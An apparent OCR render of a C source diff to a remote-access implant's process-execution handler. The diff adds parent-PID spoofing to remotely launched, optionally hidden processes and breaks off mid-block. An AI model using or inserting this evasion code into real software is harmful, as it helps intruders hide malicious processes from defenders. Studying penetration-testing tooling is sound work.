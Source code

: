 ```diff
+	memset( &si, 0, sizeof(STARTUPINFOEXA) );
 
-	si.cb = sizeof(STARTUPINFO);
+	si.StartupInfo.cb = sizeof(STARTUPINFO);
+	si.lpAttributeList = NULL;
 
 	// Initialize pipe handles
 	in[0]  = NULL;
@@ -131,6 +157,7 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 		arguments = packet_get_tlv_value_string(packet, TLV_TYPE_PROCESS_ARGUMENTS);
 		path = packet_get_tlv_value_string(packet, TLV_TYPE_PROCESS_PATH);
 		flags = packet_get_tlv_value_uint(packet, TLV_TYPE_PROCESS_FLAGS);
+		ppid = packet_get_tlv_value_uint(packet, TLV_TYPE_PARENT_PID);
 
 		if (packet_get_tlv(packet, TLV_TYPE_VALUE_DATA, &inMemoryData) == ERROR_SUCCESS)
 		{
@@ -154,7 +181,7 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 
 				lock_release(remote->lock);
 
-				si.lpDesktop = cpDesktop;
+				si.StartupInfo.lpDesktop = cpDesktop;
 
 			} while (0);
 		}
@@ -232,10 +259,10 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 			}
 
 			// Initialize the startup info to use the pipe handles
-			si.dwFlags |= STARTF_USESTDHANDLES;
-			si.hStdInput = in[0];
-			si.hStdOutput = out[1];
-			si.hStdError = out[1];
+			si.StartupInfo.dwFlags |= STARTF_USESTDHANDLES;
+			si.StartupInfo.hStdInput = in[0];
+			si.StartupInfo.hStdOutput = out[1];
+			si.StartupInfo.hStdError = out[1];
 			inherit = TRUE;
 			createFlags |= CREATE_NEW_CONSOLE;
 
@@ -251,8 +278,8 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 		// If the hidden flag is set, create the process hidden
 		if (flags & PROCESS_EXECUTE_FLAG_HIDDEN)
 		{
-			si.dwFlags |= STARTF_USESHOWWINDOW;
-			si.wShowWindow = SW_HIDE;
+			si.StartupInfo.dwFlags |= STARTF_USESHOWWINDOW;
+			si.StartupInfo.wShowWindow = SW_HIDE;
 			createFlags |= CREATE_NO_WINDOW;
 		}
 
@@ -260,6 +287,52 @@ DWORD request_sys_process_execute(Remote *remote, Packet *packet)
 		if (flags & PROCESS_EXECUTE_FLAG_SUSPENDED)
 			createFlags |= CREATE_SUSPENDED;
 
+		// Set Parent PID if provided
+		if (ppid) {
+			dprintf("[execute] PPID spoofing\n");
+			HMODULE hKernel32Lib = LoadLibrary("kernel32.dll");
+			INITIALIZEPROCTHREADATTRIBUTELIST InitializeProcThreadAttributeList = (INITIALIZEPROCTHREADATTRIBUTELIST)GetProcAddress(hKernel32Lib, "InitializeProcThreadAttributeList");
+			UPDATEPROCTHREADATTRIBUTE UpdateProcThreadAttribute = (UPDATEPROCTHREADATTRIBUTE)GetProcAddress(hKernel32Lib, "UpdateProcThreadAttribute");
```